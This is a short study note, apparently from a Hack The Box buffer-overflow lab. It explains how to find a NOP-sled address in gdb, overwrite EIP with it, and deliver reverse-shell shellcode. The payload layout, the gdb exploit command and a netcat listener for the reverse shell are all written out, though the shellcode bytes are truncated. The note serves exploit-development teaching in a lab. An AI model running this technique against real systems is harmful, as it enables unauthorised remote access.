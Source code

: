 ```yaml
---
title: "Identify Return Address"
tags:
  - hacking
  - hacking/stack-overflow
  - hacking/htb
programming-languagues:
created: 2022-07-12
---
```

# Identify Return Address
---
We need a memory address where our NOPs are located to tell the EIP to jump to it. It must not contain any of the bad characters found.

- NOPS:
```bash
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

We have to choose an address to which we refer the **EIP** and which reads and executes one byte after the other starting at this address. In this example, we take `0xffffd64c`, it looks like this:

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

We then replace our `\x66` which overwrites the EIP to tell it to jump to the `0xffffd64c` address:

```
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
```

Since our shellcode creates a reverse shell, we let **netcat** listen on port 31337:

```bash
nc -nlvp 31337
```

Then we run our exploit again:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```